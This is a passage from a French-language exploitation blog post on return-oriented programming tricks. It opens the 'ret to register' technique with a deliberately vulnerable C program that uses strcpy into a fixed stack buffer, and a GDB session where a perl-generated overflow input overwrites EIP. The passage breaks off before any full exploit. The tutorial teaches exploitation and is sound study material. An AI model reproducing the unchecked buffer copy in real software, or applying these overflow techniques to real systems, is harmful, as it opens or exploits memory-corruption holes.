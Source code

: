 Title: Roping tricks
Date: 2013-08-26
Tags: overflow,rop
Author: Tosh
Summary: Brieve list of commons roping tricks

Voici un nouvel article où il sera question de ROP, et où je détaillerais quelques techniques particulières pouvant être utiles lors d'une exploitation de type stack overflow, format string et compagnie.

Pour comprendre tout ce qu'il sera dit, il est conseillé d'avoir des bonnes bases dans l'exploitation de binaires sous Linux, de savoir lire l'assembleur x86 et de comprendre comment le ROP fonctionne.

Pour chaque technique utilisée, je préciserais dans quels cas celle-ci est utile.

Ready to poWn ?! Gooo !

##0x00 Ret to register

Utilité : Cette technique peut être utile dans le cas où l'ASLR est en place, mais où N^X n'est pas activé.

Principe : Si l'adresse de notre payload est contenue dans un registre au moment du détournement du flux d\u2019exécution, il suffit de retourner sur un gadget du style call REG/jmp *REG pour que notre payload soit exécuté.

Voici l'exemple que je vais utiliser pour illustrer la technique :

	:::c
	#include <string.h>
	#include <stdio.h>

	char* foo(const char *b) {
	    char buff[256];

    	return strcpy(buff, b);
	}

	int main(int argc, char **argv) {

	    printf("%p\n", foo(argv[1]));

	    return 0;
	}

Testons avec GDB, pour voir ce qu'il se passe :

	:::console
	gdb$ r `perl -e 'print "ABCD" . "A"x268;'`
	Starting program: /home/tosh/Downloads/a.out `perl -e 'print "ABCD" . "A"x268;'`
	warning: Could not load shared library symbols for linux-gate.so.1.
	Do you need "set solib-search-path" or "set sysroot"?

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0xBFFFF8F0  EBX: 0xB7FB9000  ECX: 0xBFFFFD30  EDX: 0xBFFFF9FA  o d I t s z a p c 
	  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFFA00  EIP: 0x41414141
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x41414141
	0x41414141 in ?? ()
	gdb$ x/s $eax
	0xbffff8f0:     "ABCD", 'A' ...
	gdb$
